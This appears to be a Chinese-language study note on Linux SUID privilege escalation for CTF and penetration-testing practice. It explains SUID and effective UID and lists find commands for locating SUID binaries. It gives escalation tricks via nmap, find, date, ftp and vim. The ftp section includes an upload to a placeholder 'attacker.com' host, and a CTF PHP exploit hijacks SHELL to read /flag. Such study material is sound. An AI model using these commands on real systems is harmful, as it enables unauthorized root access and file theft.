


# 文章
[谈一谈Linux与suid提权 | 离别歌](https://www.leavesongs.com/PENETRATION/linux-suid-privilege-escalation.html)<br />通常来说，Linux运行一个程序，是使用当前运行这个程序的用户权限，这当然是合理的。但是有一些程序比较特殊，比如我们常用的ping命令。<br />ping需要发送ICMP报文，而这个操作需要发送Raw Socket。在Linux 2.2引入[CAPABILITIES](http://man7.org/linux/man-pages/man7/capabilities.7.html)前，使用Raw Socket是需要root权限的（当然不是说引入CAPABILITIES就不需要权限了，而是可以通过其他方法解决，这个后说），所以你如果在一些老的系统里ls -al $(which ping)，可以发现其权限是-rwsr-xr-x，其中有个s位，这就是suid：
```bash
root@linux:~# ls -al /bin/ping
-rwsr-xr-x 1 root root 44168 May 7 2014 /bin/ping
```
suid全称是**S**et owner **U**ser **ID** up on execution。这是Linux给可执行文件的一个属性，上述情况下，普通用户之所以也可以使用ping命令，原因就在我们给ping这个可执行文件设置了suid权限。<br />设置了s位的程序在运行时，其**Effective UID**将会设置为这个程序的所有者。比如，/bin/ping这个程序的所有者是0（root），它设置了s位，那么普通用户在运行ping时其**Effective UID**就是0，等同于拥有了root权限。<br />这里引入了一个新的概念Effective UID。Linux进程在运行时有三个UID：

- Real UID 执行该进程的用户实际的UID
- Effective UID 程序实际操作时生效的UID（比如写入文件时，系统会检查这个UID是否有权限）
- Saved UID 在高权限用户降权后，保留的其原本UID（本文中不对这个UID进行深入探讨）

通常情况下Effective UID和Real UID相等，所以普通用户不能写入只有UID=0号才可写的/etc/passwd；有suid的程序启动时，Effective UID就等于二进制文件的所有者，此时Real UID就可能和Effective UID不相等了。<br />有的同学说某某程序只要有suid权限，就可以提权，这个说法其实是不准确的。只有这个程序的所有者是0号或其他super user，同时拥有suid权限，才可以提权。
## 寻找含有suid权限的可执行文件
```shell
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
find / -type f -perm -04000 -ls 2>/dev/null

-user 指定文件拥有者
-perm 文件权限
-exec 执行系统命令
```

## 可利用文件总结
总结网站 [https://gtfobins.github.io/](https://gtfobins.github.io/)
### Nmap
nmap（2.02-5.21）存在交互模式，可利用提权。
```shell
nmap --interactive

之后执行:
nmap> !sh
sh-3.2# whoami
root

//这是真正意义上的提权，进入到了root用户的shell
```
但是这是老版本的，为了安全性，nmap的这个机制已经弃用。然后了解到较新版可使用--script参数
```shell
echo "os.execute('/var/www/html/root-see.out')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse

.nse文件是nmap的定制脚本文件，用lua语言写的
```
但似乎现在已经不行了。
## find
find是个比较常用的命令，find用来在系统中查找文件。通常很少谈到它也有执行系统命令的功能。 因此，如果配置为使用SUID权限运行，则可以通过find执行的命令，并且都将以root身份去运行。但是现在很多系统上find命令默认没有SUID权限
```shell
find . -exec whoami \; -quit
  这个\;必须要有，而且和命令前要有个空格
  -exec：<执行指令>：假设find指令的回传值为True，就执行该指令；
  -true：将find指令的回传值皆设为True； 这个可能会用到
```
## date
#### 读取文件
```shell
命令格式
  date -f/--file <filename>

  -f, --file=DATEFILE：类似于--date; 一次从DATEFILE处理一行。
```
## netkit-ftp/ftp
netkit-ftp和ftp是一个东西
#### 出网
一般情况，ftp提权是在vps上搭建一个ftp服务端作接收端，然后让靶机上的ftp以root权限把文件传送过来就行了
```shell
RHOST=attacker.com
ftp $RHOST
put file_to_send
```
#### 不出网
2022蓝帽杯出了一道不出网的题目<br />蓝帽杯这题比较特殊，他是放在php交互脚本里进行命令执行，没办法在shell中与ftp交互，上面说的那种方式无法实现。<br />这里主要是劫持环境变量SHELL进行命令执行<br />在cmds.c文件中，定位到netkit-ftp源码功能实现代码可知是从系统变量中获取SHELL变量进行执行<br />[https://github.com/mmaraya/netkit-ftp](https://github.com/mmaraya/netkit-ftp)
```c
/*
* Do a shell escape
*/
void
shell(const char *arg)
{
    int pid;
    void (*old1)(int);
    void (*old2)(int);
    char shellnam[40];
    const char *theshell, *namep; 

    old1 = signal (SIGINT, SIG_IGN);
    old2 = signal (SIGQUIT, SIG_IGN);
    if ((pid = fork()) == 0) {
        for (pid = 3; pid < 20; pid++)
            (void) close(pid);
        (void) signal(SIGINT, SIG_DFL);
        (void) signal(SIGQUIT, SIG_DFL);
        //从环境变量中取SHELL变量
        theshell = getenv("SHELL");
        if (theshell == NULL)
            theshell = _PATH_BSHELL;
        namep = strrchr(theshell, '/');
        if (namep == NULL)
            namep = theshell;
        else 
            namep++;
        (void) snprintf(shellnam, sizeof(shellnam), "-%s", namep);
        if (strcmp(namep, "sh") != 0)
            shellnam[0] = '+';
        if (debug) {
            printf("%s\n", theshell);
            (void) fflush (stdout);
        }
        if (arg) {
            execl(theshell, shellnam, "-c", arg, NULL);
        }
        else {
            execl(theshell, shellnam, NULL);
        }
        perror(theshell);
        code = -1;
        exit(1);
    }
    if (pid > 0) while (wait(NULL) != pid);

    (void) signal(SIGINT, old1);
    (void) signal(SIGQUIT, old2);
    if (pid == -1) {
        perror("Try again later");
        code = -1;
    }
    else {
        code = 0;
    }
}
```
主要代码
:::tips
//从环境变量中取SHELL赋给thshell变量<br />theshell = getenv("SHELL");<br />......<br />if (arg) {<br />execl(theshell, shellnam, "-c", arg, NULL);<br />//也是因为这里的-c，才选择的od命令<br />}<br />else {<br />execl(theshell, shellnam, NULL);<br />}<br />//execl()用来执行参数path字符串所代表的文件路径<br />这里SHELL变量用可执行文件的绝对路径<br />最终执行的是theshell -c xxxx命令
:::
官方的EXP
```php
putenv("SHELL=/usr/bin/od");
$descriptorspec = array(
  0 => array("pipe", "r"), // 标准输入，子进程从此管道中读取数据
  1 => array("pipe", "w"), // 标准输出，子进程向此管道中写入数据
  2 => array("pipe", "r")
);

$file=array();

$process = proc_open("ftp", $descriptorspec, $file);

var_dump($process);
var_dump($file);

function readln($file){
  $out = "";
  $a = fread($file, 1);
  echo "readln";
  while ($a != "\n") {
    $out = $out.$a;
    $a = fread($file, 1);
  }
  return $out;
}


fputs($file[0], "! /flag\n");
sleep("2");
$data = readln($file[1]);
echo $data;
```
proc_open执行一个命令，并且打开用来输入/输出的文件指针，它的参数可以根据官方文档进行魔改。这里把od命令(od有-c选项，且功能符合我们的要求赋给环境变量SHELL。
:::tips
od -c<br />输出文件的八进制、十六进制等格式编码的字节<br />-c 使用ASCII码进行输出，注意其中包括转义字符<br />所以整个脚本的意思就是劫持环境变量SHELL为od命令，使用proc_open执行，并把它的输出流echo<br />
:::
## Vim
vim.tiny，vim-basic，vi等同样适用<br />进入vim命令行模式，感叹号后面加命令
```php
!command
>!whoami
>kali
>:::
```
